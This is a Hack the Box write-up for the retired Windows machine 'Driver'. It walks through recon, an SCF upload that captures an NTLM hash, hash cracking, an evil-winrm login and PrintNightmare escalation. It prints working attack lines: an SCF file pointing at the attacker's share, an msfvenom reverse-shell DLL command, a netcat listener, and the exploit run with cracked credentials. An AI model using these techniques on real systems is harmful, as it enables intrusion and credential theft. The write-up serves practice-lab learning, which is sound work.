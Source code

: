 ```yaml
---
title: HtB Driver
author: istify
date: 2022-02-27
category: Hack the Box
layout: post
---
```


# Hack the Box Driver Writeup
Driver was an easy Windows box from Hack the Box created by MrR3boot.
## Recon
I started by doing an nmap scan of the box:
```
sudo nmap -sS -p- 10.10.11.106
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-27 06:51 EST
Nmap scan report for 10.10.11.106
Host is up (0.033s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 105.22 seconds
```

I then looked at the http server first. You get prompted for basic auth credentials, but `admin`/`admin` works and gives us access to a Website called "MFP Firmaware Update Center". 

## Foothold
The most interesting part of the web page is a file upload under the "Firmware Updates" tab. I tried around with this upload for a bit and uploaded e.g. executables, as the site claims these should be tested. However after a time I gave up on this. As this is a Windows box an other option would be to trigger an NTLM connection using the file upload. I saw something similar on HtB in the past with an SQL injection, that you could exploit to get an NTLM connection.

We can trigger an NTLM connection in this case by uploading an `.scf` file. There is a blog post on [pentesterlab](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) about this. First I started responder using:
```
sudo responder -I tun0 --lm
```
Then I created an `.scf` file and uploaded it. The file I created looked as follows:
```
[Shell]
Command=2
IconFile=\\10.10.14.8\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```
This gave me a hash:
```
[SMB] NTLMv2 Hash     : tony::DRIVER:3cf88c22c2b5dfe0:75CF7454B42FD9A156C2525353940DFF:010100000000000087E8256E9326D8017C77361926092FA000000000020000000000000000000000
```
Sadly this is no NetNTLMv1 Hash, however I was able to crack it using hashcat as the password was contained in rockyou.txt:
```
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt -o cracked.txt
```
As can be seen in the nmap scan, winrm is active on the box. So I used the cracked password with evil-winrm to get access to the machine:
```
evil-winrm -u tony -p liltony -i 10.10.11.106
```
At this point I got access to the user flag.

## Privilege escalation 

The box is vulnerable to PrintNightmare, which I looked as first as the machine did have a printer theme. I personally used [this](https://github.com/cube0x0/CVE-2021-1675) exploit and pretty much followed the instructions provieded there. So I installed it, generated a a dll using msfvenom as follows:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=12345 -f dll -o test.dll
```
I then uploaded this dll using evil-winrm and started a nc listener:
```
nc -lvp 12345
```
Afterwards I executed the exploit using:
```
python3 ./CVE-2021-1675.py ./tony:liltony@10.10.11.106 'C:\Users\tony\Documents\test.dll'
```
This gave me system shell and allowed me to read the root flag. 

After machine retired I watched ippsecs's [walktrough](https://www.youtube.com/watch?v=N2ahkarb-zI). One of the privilege escalations used in the video also is PrintNightmare, but with the [powershell script](https://github.com/JohnHammond/CVE-2021-34527) by John Hammond and Caleb Stewart. However there is a second way to escalate privileges using an exploit for a Ricoh printer driver for which an metasploit module seems to exist. 

Small sidenote: If you ever want to exploit PrintNightmare on a Windows 2008 system you can use [this](https://github.com/evilashz/CVE-2021-1675-LPE-EXP) exploit. Just remove the comment in the source code, so that the right path for Windows 2008 is used.. I had problems getting the powershell exploit to run on such a system before and this worked for me.

